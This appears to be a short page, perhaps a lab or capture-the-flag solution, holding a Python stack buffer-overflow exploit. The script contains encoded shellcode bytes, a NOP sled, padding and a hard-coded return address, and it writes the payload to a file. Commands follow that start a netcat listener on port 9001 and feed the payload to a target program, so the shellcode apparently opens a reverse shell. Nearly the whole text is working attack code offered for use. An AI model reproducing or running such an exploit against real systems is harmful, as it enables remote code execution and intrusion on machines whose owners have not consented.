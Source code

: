 ```
import sys

buf = b""
buf += b"\xbb\x5a\x58\x9f\x0b\xcc\xd9\xd7\x24\xf4\x58"
buf += b"\x2b\xc9\xb1\x52\x31\x5a\x12\x83\xea\xfc\x03"
buf += b"\x5c\xc5\xde\x81\x5e\xc1\x9d\x8a\xbf\xa9\x06"
buf += b"\xeb\xf2\xac\x36\x2b\x60\x1e\x15\x9f\xe2\x72"
buf += b"\x99\x54\xa6\x66\x2d\xdc\x6d\x4d\x2c\xd6\xfc"
buf += b"\xc2\x0d\x4a\x3c\x5a\x5e\x9f\x3f\x9b\xa3\x52"
buf += b"\x6d\xda\xe0\x87\x86\x8e\xb9\x5f\xb7\x3f\xc9"
buf += b"\x1a\xb5\xb4\x81\x3b\xde\x18\x39\xf8\x5d\x6a"
buf += b"\x52\xe3\x80\x9a\x8c\xcd\xc8\x23\xd9\xef\x01"
buf += b"\xdf\xd5\x9c\x2c\x96\x27\x7d\x81\xa6\xe4\xff"
buf += b"\xd0\x71\x45\xff\x77\xfb\xed\x2b\x89\x28\xfd"
buf += b"\x9f\x1d\x43\xa5\xb4\xa2\x80\xde\xc3\x26\x27"
buf += b"\x12\x42\x1c\x63\x36\x47\xc3\x08\x42\xcc\xe2"
buf += b"\xde\xc2\x96\xc0\x7a\x8e\x4d\x68\xda\x6e\x22"
buf += b"\x97\x3c\xcf\x9b\x32\x36\xe2\xc8\x4e\x15\xeb"
buf += b"\x1e\xda\xa5\x64\x15\x4d\xd6\x56\xba\xe5\x70"
buf += b"\xdb\x33\xc0\x87\xc3\x43\x3f\x18\x30\x6c\xb8"
buf += b"\x89\x7f\x28\xe8\xa1\x56\x51\x63\x31\x56\x84"

payload = b"\x90" * 16 + buf + b"A" * (500-len(buf)) + b"\xa8\xed\xff\xbf" + b"C" * 180
sys.stdout.buffer.write(payload)
```
```
python3 exploit.py > payload.txt
```
Run in another terminal
```
nc -lvnp 9001
```
In the first terminal
```
run < payload.txt
```




